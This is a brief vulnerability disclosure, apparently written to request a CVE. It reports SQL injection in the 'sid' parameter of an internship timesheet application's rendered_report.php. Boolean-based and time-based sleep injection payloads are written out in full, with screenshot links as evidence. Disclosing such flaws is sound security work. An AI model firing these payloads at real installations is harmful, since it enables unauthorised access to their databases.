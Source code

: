 BUG_Author：wwlcz

Vulnerability File: /internship_timesheet/rendered_report.php

GET parameter 'sid' exists SQL injection vulnerability

Payload1: sid=1 and 777=777

The Boolean-based injection judgment is correct, so the page is displayed normally.

![image](https://github.com/MiserablefaithL/CVERequestReport/blob/main/sql1.png)

Payload2: sid=1 and 777=666

Boolean-based injection judgment error, so the page returns an exception.

![image](https://github.com/MiserablefaithL/CVERequestReport/blob/main/sql2.png)

Payload3: sid=1 and (select 2 from (select(sleep(5)))c)

The response time of the server is greater than 5 seconds.

![image](https://github.com/MiserablefaithL/CVERequestReport/blob/main/sql3.png)
